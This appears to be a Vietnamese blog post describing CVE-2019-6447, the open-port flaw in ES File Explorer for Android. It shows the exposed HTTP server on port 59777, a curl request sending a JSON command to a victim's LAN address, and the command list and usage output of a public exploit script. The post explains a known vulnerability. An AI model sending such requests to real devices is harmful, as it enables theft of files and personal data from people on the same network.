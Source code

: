 ```yaml
---
title: CVE-2019-6447
date: 29/06/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```



## Mô Tả 
Lỗ hổng mở cổng của ES File Explorer - CVE-2019-6447

ES File Explorer (Trình quản lý tệp) là một trình quản lý tệp (Hình ảnh, Nhạc, Phim, Tài liệu, ứng dụng) đầy đủ tính năng cho cả việc sử dụng cục bộ và mạng! Với hơn 500 triệu người dùng trên toàn thế giới, ES File Explorer (Trình quản lý tệp) giúp quản lý điện thoại Android và các tệp của bạn một cách hiệu quả và hiệu quả, đồng thời chia sẻ tệp mà không tốn dữ liệu.
 
Mỗi khi người dùng khởi chạy ứng dụng, máy chủ HTTP sẽ được khởi động. Máy chủ này đang mở cục bộ cổng 59777

```shell 
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop

```
Trên cổng này, kẻ tấn công có thể gửi tải trọng JSON đến mục tiêu
```shell
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.108:59777

```
Các lệnh này cho phép kẻ tấn công kết nối trên cùng một mạng cục bộ với nạn nhân, có được nhiều thông tin hấp dẫn (thông tin thiết bị, ứng dụng đã cài đặt, ...) về điện thoại của nạn nhân, lấy từ xa một tệp từ điện thoại của nạn nhân và khởi chạy từ xa ứng dụng trên điện thoại của nạn nhân.

## Các phiên bản bị ảnh hưởng
4.1.9.7.4 trở xuống

## Tính năng công cụ 
+ listFiles: Liệt kê tất cả các Tệp.
+ listPics: Liệt kê tất cả các Ảnh.
+ listVideos: Liệt kê tất cả các video.
+ listAudios: Liệt kê tất cả các âm thanh.
+ listApps: Liệt kê các ứng dụng đã cài đặt.
+ listAppsSystem: Liệt kê các ứng dụng Hệ thống.
+ listAppsPhone: Liệt kê các ứng dụng liên quan đến Giao tiếp.
+ listAppsSdcard: Liệt kê các ứng dụng trên thẻ SDCard.
+ listAppsAll: Liệt kê tất cả Ứng dụng.
+ getFile: Tải xuống tệp.
+ getDeviceInfo: Nhận thông tin thiết bị.

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

Mã khai thác của tác giả Nehal Zaman [CVE-2019-6447](https://www.exploit-db.com/exploits/50070)


```shell
C:\Users\Administrator\Documents\python>python 15.py cmd ip 

Available commands :
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.

```

## Cảm ơn :D

